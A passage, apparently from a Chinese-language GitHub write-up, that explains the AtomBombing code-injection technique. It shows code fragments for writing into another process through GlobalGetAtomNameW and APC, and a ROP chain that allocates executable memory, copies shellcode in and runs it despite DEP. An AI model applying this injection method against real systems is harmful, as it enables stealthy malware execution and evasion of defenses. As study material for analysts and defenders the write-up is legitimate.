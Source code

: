 ```c
);

// GlobalGetAtomNameW 在目标进程执行，将 atom 内容写入 remoteBuffer
```

**关键技巧：**
- `GlobalGetAtomNameW` 是合法的系统 API
- 通过 APC 在目标进程执行
- 实现了跨进程内存写入，但不使用 `WriteProcessMemory`

#### 步骤 2: 构建 ROP 链

由于目标进程的内存可能受到 DEP（Data Execution Prevention）保护，直接执行写入的 shellcode 会失败。因此需要构建 ROP（Return-Oriented Programming）链来：

1. **分配可执行内存**
   ```c
   // ROP 链第一步：调用 NtAllocateVirtualMemory
   NtAllocateVirtualMemory(
       GetCurrentProcess(),
       &baseAddress,        // 将被填充
       0,
       &regionSize,
       MEM_COMMIT,
       PAGE_EXECUTE_READWRITE
   );
   ```

2. **复制 shellcode**
   ```c
   // ROP 链第二步：调用 memcpy
   memcpy(
       allocatedMemory,     // 第一步分配的内存
       shellcodeAddress,
       shellcodeSize
   );
   ```

3. **执行 shellcode**
   ```c
   // ROP 链第三步：RET gadget 跳转到分配的内存
   // ret 指令会跳转到栈顶地址，即 allocatedMemory
   ```

**ROP 链结构：**
```c
typedef struct _ROP_CHAIN {
    // ===== NtAllocateVirtualMemory 参数 =====
    PVOID pvMemcpy;              // 返回地址（跳转到 memcpy）
    HANDLE hProcess;             // 进程句柄
    PVOID *pBaseAddress;         // 输出：分配的地址
    ULONG_PTR ZeroBits;
    PSIZE_T pRegionSize;
    ULONG AllocationType;
    ULONG Protect;

    // ===== memcpy 参数 =====
    PVOID pvRetGadget;           // 返回地址（RET gadget）
    PVOID Destination;           // 从 pBaseAddress 获取
    PVOID Source;                // shellcode 地址
    SIZE_T Length;               // shellcode 大小
} ROP_CHAIN;
```
